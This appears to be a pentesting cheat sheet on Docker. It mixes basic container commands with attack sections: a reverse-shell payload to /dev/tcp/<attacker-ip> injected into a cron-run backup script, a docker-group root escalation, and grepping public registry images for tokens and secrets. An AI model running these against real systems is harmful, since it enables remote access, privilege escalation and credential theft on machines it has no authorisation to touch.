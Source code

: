 ```yaml
---
title: Docker Pentesting
desc: 
tags: [AWS, Container, Docker, Netcat, PrivEsc, Privilege]
alts: [Privilege-Escalation-Linux]
render_with_liquid: false
---
```


## Investigation

- **Images**

    ```sh
    # List images
    docker images
    # or
    docker image ls

    # The history of an image
    docker image history <image-name>
    ```

- **Containers**

    ```sh
    # List containers running
    docker container ls
    # or
    docker ps

    # List all containers
    docker container ls -a
    # or
    docker ps -a
    ```

<br />

## Basic Operations

- **Run a New Container**

    ```sh
    # List images and check the image name
    docker images

    # -d: detached mode (background)
    # -p: map the port of the host to the port in the container
    docker run -dp 80:80 <image-name>
    ```

- **Start a Stopped Container**

    ```sh
    # List all containers and check the target ID
    docker container ls -a

    # Start the container
    docker container start <container-id>
    ```

- **Run Commands in a Container**

    ```sh
    # List containers running and check the target container ID
    docker ps

    # Run commands by giving the container ID
    docker exec <container-id> whoami
    docker exec <container-id> cat sample.txt
    ```

- **Stop a Container**

    ```sh
    # List running containers and check the target container ID
    docker ps

    # Stop the container by giving the ID
    docker stop <container-id>
    ```

- **Remove a Container**

    ```sh
    # List all containers and check the target container ID
    docker ps -a

    # Remove the container by givine the ID
    docker rm <container-id>
    # Force to remove the running container (-f)
    docker rm -f <container-id>
    ```

- **Build a Container Image**

    First off, create a **Dockerfile** in the root directory of the project.

    ```sh
    FROM node:12-alpine

    RUN apk add --no-cache python2 g++ make
    WORKDIR /app
    COPY . .
    RUN yarn install --production
    CMD ["node", "src/index.js"]
    ```

    Now run the following command to build the container image.  
    This command uses the Dockerfile.

    ```sh
    # -t: name a tag of the image
    docker build -t <tag-name> .
    ```

- **Scan a Container Image**

    ```sh
    docker scan <image-name>
    ```

- **Remove an Image**

    ```sh
    # List images and check the target image ID
    docker images

    # Remove the image by giving the ID
    docker rmi <image-id>
    ```

- **Publish an Image**

    Before doing below, you need to sign up the Docker Hub and sign in, then create a new repository in your dashboard.

    ```sh
    # Login
    docker login -u <your-username>

    # Tag a new image
    docker tag <source-image> <your-username>/<target-image>

    # Push
    docker push <your-username>/<target-image>
    ```

<br />

## Escape from Container to Desired Machine

1. **Check if the Backup File like "backup.sh" Exists**

    ```sh
    cd /opt/backups
    ls
    ```

2. **Add Reverse Shell Payload to the Backup File**

    If you find the backup file and it's executed automatically at regular intervals by cron, inject the reverse shell payload to escape from the container shell.

    ```sh
    echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    # or
    printf '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    ```

3. **Open Listner for Waiting the Reverse Shell**

    Use "nc" command to open listener and wait for while running the previous script by cron.

    ```sh
    # In attacker machine, wait for the cron job execute the reverse shell
    nc -lvnp 4444
    ```

4. **Confirmation**

    If you found the computer's name changed, you gained the access to the desired machine successfully.

    ```sh
    user@realhost:~#
    ```

<br />

## Root Privilege Escalation (Docker Group Required)

1. **Check if Current User Belongs to "docker" Group**

    ```sh
    groups
    ```

2. **Gain the Root Shell**

    ```sh
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```

<br />

## Amazon Elastic Container Registry (ECR) Public Gallery

1. **Run the Docker Container**

    - **Retrieve a Container Image**

        ```sh
        docker pull public.ecr.aws/<registry-alias>/<repository>:latest
        ```

    - **Check if It was Pulled**

        ```sh
        docker images
        ```

    - **Run the Container and Interect with It**

        ```sh
        docker run -it public.ecr.aws/<registry-alias>/<repository>:latest
        ```

2. **Get Sensitive Information in the Container**

    You may be able to get the interesting data like **api_key**.

    ```sh
    printenv
    ```

3. **Get Sensitive Information in Local Machine**

    - **Check the Container Config and Retrieve Sensitive Information**

        Process the following flows in your local machine.

        ```sh
        mkdir example
        cd example/
        docker save -o example.tar public.ecr.aws/<registry-alias>/<repository>:latest
        tar -xf example.tar

        # Config files
        cat manifest.json | jq
        cat f9ab.......json | jq

        # Also config file in each directory
        cd 2246f........../
        tar -xvf layer.tar

        # Get sensitive information
        grep -e 'token' -e 'secret' */*
        ```